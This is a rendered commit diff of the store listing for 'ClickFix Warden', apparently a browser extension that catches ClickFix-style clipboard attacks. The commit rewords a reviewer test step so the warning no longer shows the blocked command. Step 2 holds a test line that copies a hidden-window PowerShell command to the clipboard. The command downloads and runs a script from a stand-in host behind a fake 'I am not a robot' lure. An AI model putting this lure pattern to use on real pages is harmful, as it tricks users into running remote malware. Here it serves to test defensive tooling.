

Before and after one commit to xVoidByte/clickfix-warden, a Markdown page: store/chrome-web-store.md, the part around the change. GitHub-like rendering.

Commit message:
Say in the reviewer steps that the warning never shows the command

```diff
--- a/store/chrome-web-store.md
+++ b/store/chrome-web-store.md
@@ -57,6 +57,6 @@ https://xvoidbyte.github.io/ClickFixWarden/privacy.html
 1. Install the extension and open any web page, for example https://example.com.
 2. Open the developer tools console on that page, run the line below, then click anywhere on the page within three seconds (the clipboard only accepts writes from a focused page)
    `setTimeout(() => navigator.clipboard.writeText('powershell -w h -c "iwr https://x.example.invalid/a.ps1 | iex" # I am not a robot - Verification ID: 1234'), 3000)`
-3. A warning appears in the page showing the blocked command and why it was blocked. Pasting now gives a harmless note that starts with `# ClickFix Warden`.
+3. A warning appears in the page that says in bold what was found and why it was stopped, the command itself is never shown. Pasting now gives a harmless note that starts with `# ClickFix Warden`.
 4. Copying a normal install command, for example from https://rustup.rs, is not affected.
 5. The settings page lists every option with a help icon, and the detection log shows the test above.
```
